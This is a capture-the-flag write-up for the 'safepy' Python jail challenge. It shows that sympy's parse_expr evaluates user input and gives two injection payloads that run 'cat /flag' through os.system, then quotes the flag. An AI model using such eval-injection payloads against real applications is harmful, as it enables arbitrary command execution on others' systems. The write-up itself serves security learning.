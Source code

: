 # safepy

Categories: Jail/Python/Beginner

Description:
> safepy
>
> - 50 points
>
> My calculator won't be getting pwned again...
>
> $ `nc safepy.chal.uiuc.tf 1337`
>
> author: tow_nater
>
> [handout.tar.gz](resources/handout.tar.gz)<br/>

**Tags:** python, jail

## Takeaways


## Solution

The source code of the challenge is pretty simple:

```python
from sympy import *

def parse(expr):
    # learned from our mistake... let's be safe now
    # https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression
    # return sympify(expr)

    # https://docs.sympy.org/latest/modules/parsing.html
    return parse_expr(expr)


print('Welcome to the derivative (with respect to x) solver!')
user_input = input('Your expression: ')
expr = parse(user_input)
deriv = diff(expr, Symbol('x'))
print('The derivative of your expression is:')
print(deriv)
```

As we can already see from the links provided above, `parse_expr` uses `eval()` underneath, but let's take also a look our selves:

```python
# ~/.pyenv/versions/3.10.5/lib/python3.10/site-packages/sympy/parsing/sympy_parser.py
def parse_expr(s, local_dict=None, transformations=standard_transformations,
               global_dict=None, evaluate=True):

    # ... #
    code = stringify_expr(s, local_dict, global_dict, transformations) # Converts the string `s` to Python code
    if not evaluate:
        code = compile(evaluateFalse(code), '<string>', 'eval')
    rv = eval_expr(code, local_dict, global_dict)
```

Definitely unsafe. So, our exploit simply is

```python
exec('import os; os.system("cat /flag")')
```

The above payload prints the flag, but raises an exception because `exec` returns `None` and this is not something from which we can calculate a derivative. If we want to further suppress exceptions, we can do:

```python
eval('__builtins__["__import__"]("os").system("cat /flag")')
```

which will return `0` and will be a valid input for calculating the derivative. And thus, we get the flag!

`uiuctf{na1v3_0r_mal1ci0u5_chang3?}`
